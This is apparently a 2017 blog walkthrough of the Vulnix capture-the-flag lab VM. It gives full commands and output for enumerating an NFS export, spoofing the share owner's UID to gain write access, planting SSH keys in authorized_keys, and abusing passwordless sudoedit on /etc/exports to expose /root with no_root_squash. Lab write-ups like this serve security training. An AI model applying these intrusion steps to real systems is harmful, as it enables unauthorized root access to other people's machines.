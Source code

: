 ```yaml
---
layout: post
title: Vulnix CTF Walkthrough
date: 2017-08-21
categories:
  - security
  - ctf
  - walkthrough
tags:
  - vulnix
  - vulnhub
---
```

## Service Discovery & Enumeration
Nmap [`nmap -sS -sV -sC 192.168.22.134`] revealed a number of different services for this box, offering a lot of potential enumeration points:

```
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1 (Ubuntu Linux; protocol 2.0)
25/tcp   open  smtp     Postfix smtpd
79/tcp   open  finger   Linux fingerd
110/tcp  open  pop3     Dovecot pop3d
111/tcp  open  rpcbind  2-4 (RPC #100000)
| rpcinfo:
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100003  2,3,4       2049/tcp  nfs
|   100003  2,3,4       2049/udp  nfs
|   100005  1,2,3      42005/udp  mountd
|   100005  1,2,3      54538/tcp  mountd
|   100021  1,3,4      37679/tcp  nlockmgr
|   100021  1,3,4      50827/udp  nlockmgr
|   100024  1          49501/udp  status
|   100024  1          53102/tcp  status
|   100227  2,3         2049/tcp  nfs_acl
|_  100227  2,3         2049/udp  nfs_acl
143/tcp  open  imap     Dovecot imapd
512/tcp  open  exec     netkit-rsh rexecd
513/tcp  open  login?
514/tcp  open  shell    Netkit rshd
993/tcp  open  ssl/imap Dovecot imapd
995/tcp  open  ssl/pop3 Dovecot pop3d
2049/tcp open  nfs_acl  2-3 (RPC #100227)
```

The first service I took a look at was the NFS daemon, by looking at the export list on the host machine:

```shell_session
root@kali:~# showmount -e 192.168.22.134
Export list for 192.168.22.134:
/home/vulnix *
```

The home directory of the `vulnix` user is being exposed, which presents a potentially easy access point. Prior to NFSv4, it's possible to view the owner UID and GID of a remote share, so I tried to mount the share using NFSv3:

```shell_session
root@kali:~/vulnix# mkdir mnt && mount 192.168.22.134:/home/vulnix mnt -o vers=3
root@kali:~/vulnix# ls -l
total 4
drwxr-x--- 2 2008 2008 4096 Sep  2  2012 mnt
```

As can be seen in the above output, the owning user and group have the IDs `2008`. There are multiple tools available to aid in spoofing this, but it's also as easy to just add a new user with the specified ID, so I created a new user with ID 2008, switched to it, and then had access to the share:

```shell_session
root@kali:~/vulnix# useradd -u 2008 vulnix
root@kali:~/vulnix# su vulnix
$ cd mnt
$ ls -lah
total 20K
drwxr-x--- 2 vulnix vulnix 4.0K Sep  2  2012 .
drwxr-xr-x 3 root   root   4.0K Aug 20 15:28 ..
-rw-r--r-- 1 vulnix vulnix  220 Apr  3  2012 .bash_logout
-rw-r--r-- 1 vulnix vulnix 3.5K Apr  3  2012 .bashrc
-rw-r--r-- 1 vulnix vulnix  675 Apr  3  2012 .profile
```

Now that I had remote write access as `vulnix`, I created a new SSH key pair, and copied the public key into `.ssh/authorized_keys`, which then allowed me to SSH in to the box as `vulnix`

```shell_session
root@kali:~/vulnix# ssh -i id_rsa vulnix@192.168.22.134
Welcome to Ubuntu 12.04.1 LTS (GNU/Linux 3.2.0-29-generic-pae i686)

 * Documentation:  https://help.ubuntu.com/

  System information as of Sun Aug 20 16:47:57 BST 2017

  System load:  0.0              Processes:           90
  Usage of /:   90.2% of 773MB   Users logged in:     0
  Memory usage: 7%               IP address for eth0: 192.168.22.134
  Swap usage:   0%

  => / is using 90.2% of 773MB

  Graph this data and manage this system at https://landscape.canonical.com/


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

vulnix@vulnix:~$
```

## Getting Root Access
Looking at the sudo privileges for `vulnix`, I could see that the user is able to edit the NFS exports without the need for a password:

```shell_session
vulnix@vulnix:~$ sudo -l
Matching 'Defaults' entries for vulnix on this host:
    env_reset, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User vulnix may run the following commands on this host:
    (root) sudoedit /etc/exports, (root) NOPASSWD: sudoedit /etc/exports
```

By using `sudoedit /etc/exports`, it's possible to add another share into the export list, one which uses the `no_squash_root` option; which prevents root users being remapped to the `nobody` user:

```conf
# /etc/exports: the access control list for filesystems which may be exported
#               to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#
/home/vulnix    *(rw,root_squash)
/root *(rw,no_root_squash)
```

This change doesn't automatically get applied, but will do so upon a system reboot. After rebooting the VM, the new share into the `/root` directory can be seen:

```shell_session
root@kali:~/vulnix# showmount -e 192.168.22.134
Export list for 192.168.22.134:
/root        *
/home/vulnix *
```

Following the same steps as before, it is now possible to add an SSH key into `/root/.ssh/authorized_keys` and gain root access:

```shell_session
root@kali:~/vulnix# mount 192.168.22.134:/root mnt -o vers=3
root@kali:~/vulnix# cd mnt
root@kali:~/vulnix/mnt# ls -la
total 28
drwx------ 3 root root 4096 Sep  2  2012 .
drwxr-xr-x 5 root root 4096 Aug 20 16:33 ..
-rw------- 1 root root    0 Sep  2  2012 .bash_history
-rw-r--r-- 1 root root 3106 Apr 19  2012 .bashrc
drwx------ 2 root root 4096 Sep  2  2012 .cache
-rw-r--r-- 1 root root  140 Apr 19  2012 .profile
-r-------- 1 root root   33 Sep  2  2012 trophy.txt
-rw------- 1 root root  710 Sep  2  2012 .viminfo
root@kali:~/vulnix/mnt# mkdir .ssh
root@kali:~/vulnix/mnt# cp ../id_rsa.pub .ssh/authorized_keys

root@kali:~/vulnix# ssh -i id_rsa root@192.168.22.134
Welcome to Ubuntu 12.04.1 LTS (GNU/Linux 3.2.0-29-generic-pae i686)

 * Documentation:  https://help.ubuntu.com/

  System information as of Sun Aug 20 17:51:41 BST 2017

  System load:  0.0              Processes:           93
  Usage of /:   90.2% of 773MB   Users logged in:     0
  Memory usage: 7%               IP address for eth0: 192.168.22.134
  Swap usage:   0%

  => / is using 90.2% of 773MB

  Graph this data and manage this system at https://landscape.canonical.com/

root@vulnix:~# ls
trophy.txt
root@vulnix:~# cat trophy.txt
cc614640424f5bd60ce5d5264899c3be
root@vulnix:~#
```
